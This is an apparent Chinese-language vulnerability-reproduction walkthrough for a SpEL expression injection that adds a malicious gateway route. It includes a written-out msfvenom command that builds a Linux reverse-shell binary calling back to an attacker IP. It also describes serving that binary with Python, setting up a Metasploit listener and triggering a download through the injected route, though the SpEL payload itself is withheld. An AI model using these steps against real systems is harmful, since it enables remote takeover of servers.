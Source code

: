   

 **打开后界面是这样的**  
---  
  
  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220303143707.png)

  

 **接下来开始复现吧，先做好直接上线的准备。因为环境是linux，所以用下面的命令生成个码子，记好下面的payload，下面要用到。**  
---  
  
  

  * 

    
    
     msfvenom -p linux/x86/shell_reverse_tcp LHOST=x.x.x.x LPORT=9911 -f elf >reverse.elf

  

 **然后用python启个服务把码子挂在上面，对，就像下面操作那样**  
---  
  
  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220303143708.png)

  

 **然后配置好msf，payload就设置你生成木马的那个payload，大家应该都会，我就为了多贴个图哈哈哈哈，记得配置好监听起来。**  
---  
  
  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220303143709.png)

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220303143711.png)

  

 **然后发送如下数据包就可以添加一个包含恶意SpEL表达式的路由，这里我让payload去下载我的码子，还有一个点，我new
string去掉了，不然执行不起来，payload我就不贴了大家可以看参考链接。**  
---  
  
  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220303143713.png)

  

 **跟以前的漏洞一样，这里需要刷新去触发，也可以说是去应用刚添加的路由，这个数据包会触发SpEL表达式的执行。**  
---  
  
  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220303143715.png)

  

 **发送下面数据包即可查看执行结果，我这里是下载文件的命令所以没有显示出来，这里显示的是我上一次执行命令的结果。**  
---  
  